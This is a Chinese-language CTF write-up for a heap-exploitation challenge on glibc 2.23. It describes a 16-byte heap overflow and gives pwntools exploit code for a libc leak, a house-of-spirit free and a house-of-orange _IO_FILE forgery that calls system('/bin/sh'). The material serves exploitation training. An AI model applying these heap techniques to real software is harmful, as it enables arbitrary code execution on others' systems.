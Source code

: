 # 0x00 前言

这道题做起来感觉局限性很大，不能自定义chunk的大小，只能分配0xD0和0x80的chunk；然后一共能用来放堆块的全局数组大小只有3。所以最后几乎是极限利用house of orange做出来的。所以，不知道是不是预期解。。。（按照我做pwn的魔咒估计又不是预期了2333

# 0x01 漏洞点

漏洞点有两处，一个是在申请普通pig时，有16字节的溢出

```c
pigs[v1] = (char *)malloc((signed int)pig_size);
//...
puts("data:");
get_input(pigs[v1] + 16, pig_size);           // overflow
```

还有一个是可以直接修改fly pig后面的那个chunk

```c
get_input(buf_0x70 + 0x80, 16);
```

因为刚好`buf_0x70`的chunk大小是0x80，所以这刚好可以写到下一个chunk的fd和bk

# 0x02 leak

首先是要leak，还是老思路，溢出转成UAF，这里可以用把unsorted bin延伸的思路。具体就是，把unsorted bin延伸到后面一个已经在使用的chunk，然后申请一个堆块，这个时候就可以通过show那个UAF的pig来实现fd的leak。

具体实现如下

```python
create_pig(0, "A" * 0xB7 + "\n")
create_pig(1, "B" * 0xB7 + "\n")
create_pig(2, "\x00" + "C" * 0xB6 + "\n")
free_pig(0)
free_pig(1)

create_pig(0, "A" * 0xB8 + p64((0xD0 * 2) | 1)[:7] + "\n")
#extend unsorted bin chunk

create_pig(1, "\x00" * 0xB7 + "\n")
#此时idx为2的pig处于UAF状态，可以leak出fd

leak = print_pigs()[0xd0:0xd0+6]+"\x00\x00"
libc_addr = u64(leak) - UNSORTED_OFF
assert (libc_addr & 0xfff) == 0
print hex(libc_addr)
```

# 0x03 极限house of orange

## 思路

这题leak是比较简单的，难的是任意代码执行。这题明显不能fastbin attack，因为没法分配0x70的chunk。想了一下发现只能house of orange。但是house of orange需要溢出一整个`_IO_FILE`的数据，我们这边只能溢出16个字节，尤其是最关键的`bk`指针没法溢出到，怎么办？

一开始的思路是，构造两个0xD0和0x80的chunk，使他们可以溢出到同一个unsorted bin，这样两个pig“合作”，一个负责溢出`prev_size`和`size`，一个负责写`fd`和`bk`，然后`_IO_FILE`其他数据就预先放在这个chunk里面。

然而不行，构造不出这种情况。

那么换思路，我们真的需要溢出`prev_size`和`size`么？前者可以用跟放`_IO_FILE`其他数据一样的思路预先放好，而`size`只要是0x61就行，而这是可以通过溢出unsorted bin chunk的大小构造出来的。

## 准备工作

首先是`_IO_FILE`的内容

```python
fake_file = p64(0)
fake_file += p64(0x61)
fake_file += "\x00" * 0x10 # fd and bk
fake_file += p64(2) + p64(3)
fake_file += "\x00" * 8
fake_file += p64(libc_addr + next(e.search('/bin/sh\x00'))) #/bin/sh addr
fake_file += (0xc0-0x40) * "\x00"
fake_file += p32(0) #mode
fake_file += (0xd8-0xc4) * "\x00"
fake_file += p64(libc_addr + IO_STR_FINISH - 0x18) #vtable_addr
fake_file += (0xe8-0xe0) * "\x00"
fake_file += p64(libc_addr + e.symbols["system"])
```

这里不是通过自己构造虚表，而是用了一个libc里面的虚表中一个函数，这个虚表在`_IO_jump_t`的后面，就在这个表偏前面的位置，有个函数，里面有个`call [xxx+0xe8]`这样的指令，很好找的。然后第一个参数刚好也用了结构体里面的一个数据，所以在那里放`/bin/sh`的地址即可，然后0xe8处放system的地址，即可实现`system("/bin/sh")`。

这个利用方式比起自己构造虚表有一个好处，一是不用leak堆的地址，二是可以绕过2\.24以上版本的一个security check。这题libc版本是2\.23，所以用这个方法的原因是前者。

接着清理一下堆

```python
free_pig(1)
free_pig(0)

#fake_file[0x20:0x50]
create_pig(0, "F" * 0xB7 + "\n")
free_pig(0)
#consume last chunk,
#last chunk won't be consolidated because pre_inuse of topchunk
#so do consolidation by ourselves
#now bins are empty, everything merged to top chunk
#donot use idx 2 now
```

这里有个有趣的现象，因为虽然我们延伸了unsorted bin chunk的大小，但是top chunk的`prev_use`仍然是1，所以在free 1和0 之后，前面的unsorted bin跟那个UAF的chunk并不会consolidate，所以后面要再create一下，拿到之前那个UAF的chunk，再free，就会全部consolidate成一个top chunk了。（除了0xB21处最开始分配的那个3616大小的chunk，然而我并不知道那是干嘛用的，大概那才是预期解？233）

## house of spirit 解放idx 2

此时0和1是空的，2是一个野指针。然后接下来的利用，我一开始试着只用两个pigs来弄，发现怎么也弄不成功。所以务必解放idx为2的pig。然而他是个野指针，随便free可能会爆，怎么办？可以用[house of spirit](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_spirit.c)的思路，把他作为一个用不到的大小的fastbin chunk释放掉，比方说这题我就用了0x20。

```python
create_fly_pig()
create_fly_pig()
create_fly_pig()

#topchunk fb0
#dangling pointer fe0
#0x30
create_pig(0, "PREVSIZE" + p64(0x21) + "A" * 0x18 + p64(0x1234))
free_pig(0)
#free 0 first to prevent fastbin consolidation
free_pig(2)
#house of spirit to make idx 2 available

#now bins only has 0x20 fastbin
#3 pigs are clear
```

这里要注意，必须要先free 0再free 2，不然会导致fastbin consolidate，这样会爆异常。

这个时候3个pigs又都可以用了，而且bins除了0x20 fastbin也都是空的，然而这个0x20根本不会被用上

## house of orange花式利用

接着就是house of orange了，要构造一个0x61的chunk，同样用之前的思路，改写unsorted bin的大小。这个时候就要把unsorted bin大小改写成`0x60+0x80`，这样的话create一个flypig之后，刚好能剩下一个0x60的chunk。

当然，要预先在内存中放好`_IO_FILE`的关键数据，exp如下

```python
create_pig(0, "F" * 0xB7 + "\n")
create_pig(1, "\x00" * 0x80 + fake_file[0x20:0x50] + "G" * 7 + "\n")
#\x00是因为_flags(prev_size)要是0
create_pig(2, fake_file[0x70:] + "\n")
create_fly_pig() #prevent topchunk consolidate

free_pig(0)
free_pig(1)
#now 0x1a1 unsorted bin

create_pig(0, "E" * 0xB8 + p64((0x60 + 0x80) | 1)[:7] + "\n")

create_fly_pig()

edit_fly_pig(p64(libc_addr + UNSORTED_OFF) + p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)[:7] + "\n")

sh.send("4\x00")
sh.recvuntil("secret:\n")
sh.send("UOTp%I<S\n")

sh.interactive()
```

至于这个“预先放好”的位置是如何确定的，大概就是不断地脑补\+调试吧，有时候右脑不够用纸上画个图也能帮助思考。

有趣的是，好像在这个版本`0x60+0x80=0xe0`的unsorted bin chunk的后面并不用伪造next chunk的`prev_size`和`size`，这个好像在后面libc的版本是有检查的。